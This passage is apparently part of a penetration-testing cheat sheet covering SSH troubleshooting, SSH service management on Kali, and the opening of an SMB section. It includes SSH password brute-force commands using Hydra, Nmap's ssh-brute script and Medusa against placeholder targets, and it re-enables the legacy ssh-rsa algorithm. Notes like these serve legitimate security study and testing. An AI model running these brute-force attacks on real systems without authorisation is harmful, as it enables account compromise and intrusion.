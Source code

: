 #### SSH Configuration Issues
```bash
# If you encounter algorithm negotiation failures
# Edit SSH config file:
sudo nano /etc/ssh/ssh_config

# Add these lines:
HostKeyAlgorithms +ssh-rsa
PubKeyAcceptedKeyTypes +ssh-rsa

# Check ciphers and algorithms supported by server
ssh -Q cipher
ssh -Q key
ssh -Q mac
```

#### SSH Service Management (on your Kali)
```bash
# Start SSH service
sudo service ssh start

# Check SSH service status
sudo service ssh status

# Check if SSH port is open
netstat -antp | grep 22

# Configure SSH server
sudo nano /etc/ssh/sshd_config
```

#### SSH Password Attacks
```bash
# Using Hydra with username list and password list
hydra -L users.txt -P passwords.txt ssh://<IP>

# Using Hydra with single username
hydra -l username -P passwords.txt ssh://<IP>

# Using Nmap
nmap --script ssh-brute.nse -p22 <IP>

# Using Medusa
medusa -U users.txt -P passwords.txt -h <IP> -M ssh
```

### Port 445 - SMB Services

#### Identifying SMB Scripts
```bash
# List all available SMB scripts
locate *.nse | grep smb
```
